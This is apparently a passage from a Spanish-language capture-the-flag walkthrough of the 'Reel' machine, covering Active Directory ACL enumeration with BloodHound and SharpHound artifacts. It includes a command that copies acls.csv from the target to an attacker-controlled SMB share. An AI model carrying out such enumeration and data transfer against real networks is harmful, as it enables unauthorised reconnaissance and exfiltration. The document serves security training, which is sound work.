 ------------------
#### ACLs Inspection (Active Directory Enumeration)  
Dentro del directorio personal de **TOM** podemos ver un directorio de nombre **AD audit** el cual, en su interior contiene unos archivos:
```
tom@REEL C:\Users\tom\Desktop\AD Audit>dir                                                                                      
 Volume in drive C has no label.                                                                  
 Volume Serial Number is CEBA-B613                                                                                              
Directory of C:\Users\tom\Desktop\AD Audit                                                                                     
05/29/2018  09:02 PM    <DIR>          .                                                           
05/29/2018  09:02 PM    <DIR>          ..                                                          
05/30/2018  12:44 AM    <DIR>          BloodHound                                                  
05/29/2018  09:02 PM               182 note.txt                                                    
               1 File(s)            182 bytes                                                     
               3 Dir(s)   4,979,916,800 bytes free         
```

El **.txt** basicamente nos dice que hizo una auditoria con **BloodHound** y que no encontro forma de convertise en **domain controller** desde un usuario normal:
```
Findings:                                                                                          
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).     
Maybe we should re-run Cypher query against other groups we've created.     
```

Luego, tenemos una carpeta de nombre **BloodHound** el cual contiene un archivo con extension **.ps1** de nombre **PowerView**, tambien vemos otro directorio de nombre **Ingestors**, dentro de el, contiene el **BloodHound.exe** y otros archivos, además hay un **acls.csv**:
```
Directory of C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors                                                                
05/29/2018  08:57 PM    <DIR>          .                                                           
05/29/2018  08:57 PM    <DIR>          ..                                                          
11/17/2017  12:50 AM           112,225 acls.csv                                                    
10/28/2017  09:50 PM             3,549 BloodHound.bin                                              
10/24/2017  04:27 PM           246,489 BloodHound_Old.ps1                                          
10/24/2017  04:27 PM           568,832 SharpHound.exe                                              
10/24/2017  04:27 PM           636,959 SharpHound.ps1                                              
               5 File(s)      1,568,054 bytes                                                      
               2 Dir(s)   4,979,851,264 bytes free                                                 
```

Nos lo vamos a traer a nuestra maquina para abrirlo con **LibreOfficce** y ver que contiene en su interior:
```
copy acls.csv \\10.10.10.10\smbFolder\acls.csv
```

Inspeccionando el archivo, podemos filtrar por **TOM** para intentar ver algo:
![[Pasted image 20230801025319.png]]
